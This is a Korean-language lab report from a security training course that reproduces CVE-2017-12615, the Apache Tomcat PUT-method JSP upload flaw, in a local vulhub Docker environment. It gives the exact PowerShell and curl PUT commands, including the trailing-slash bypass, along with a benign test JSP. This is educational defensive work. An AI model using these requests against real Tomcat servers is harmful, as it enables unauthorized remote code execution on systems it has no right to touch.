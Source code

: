 # CVE-2017-12615: Apache Tomcat PUT 메서드 취약점 PoC 보고서
---
화이트햇 스쿨 3기 손범규_8279
---
## 🔒 CVE 정보

- **CVE ID**: CVE-2017-12615
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.79 (Windows) 에서 HTTP PUT 메서드가 활성화된 경우, 인증 없이 JSP 파일 업로드 가능.
- **공식 설명**: https://nvd.nist.gov/vuln/detail/CVE-2017-12615

## 테스트 환경 구성

### 사용 도구

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- PowerShell (Invoke-WebRequest 사용)

### 실행 절차
**1. 취약 환경 레포 클론**
- 공식 vulhub 저장소를 로컬에 클론하여 환경 설정을 시작합니다.
```powershell
git clone https://github.com/vulhub/vulhub.git
```
![레포](gitclone.png)

**2. CVE 환경 디렉토리로 이동**
- 관련된 도커파일(Dockerfile, docker-compose.yml 등)이 위치한 폴더로 이동합니다.
```powershell
cd vulhub/tomcat/CVE-2017-12615
```
![디렉토리 이동](cvefile.png)

**3. docker 환경 실행**
- 컨테이너가 백그라운드에서 실행되며, localhost:8080 포트에서 Tomcat 서버가 실행됩니다.
![Docker](dockercompose.png)

**4. jsp 파일 생성(shell.jsp)**
- 이 JSP 파일은 업로드한 후 실행하면, 브라우저에서 PoC Success!라는 문구가 출력됩니다.
- 파일을 프로젝트 루트에 저장: Tomcat/CVE-2017-12615/shell.jsp
```jsp
<% out.println("PoC Success!"); %>
```
**5. 파일 업로드**
- Windows 환경에서는 PowerShell에서 curl 대신 Invoke-WebRequest를 사용하여 .jsp 파일을 업로드할 수 있습니다.
```markdown
### POWER SHELL 환경
Invoke-WebRequest -Uri "http://localhost:8080/shell.jsp/" `
  -Method Put `
  -InFile ".\shell.jsp" `
  -ContentType "application/octet-stream"
### 다른 환경
curl -X PUT "http://localhost:8080/shell.jsp/" --data-binary @shell.jsp
```

![File](fileupload.png)

**6. 브라우저로 PoC 확인**
- 브라우저 주소창에 다음 주소 입력
- J SP가 정상적으로 업로드되어 실행되면 "PoC Success!" 문구가 출력됩니다.
```markdown
http://localhost:8080/shell.jsp
```
![PoC 결과](PoC%20Success.png)

## 결론
이번 실습에서는 Apache Tomcat의 PUT 요청 취약점을 재현하고, 실제로 .jsp 파일을 업로드하여 PoC에 성공했습니다.
Docker 환경을 통해 손쉽게 구축할 수 있었으며, JSP 파일 실행을 통해 원격 코드 실행(RCE) 가능성을 직접 확인하였습니다.
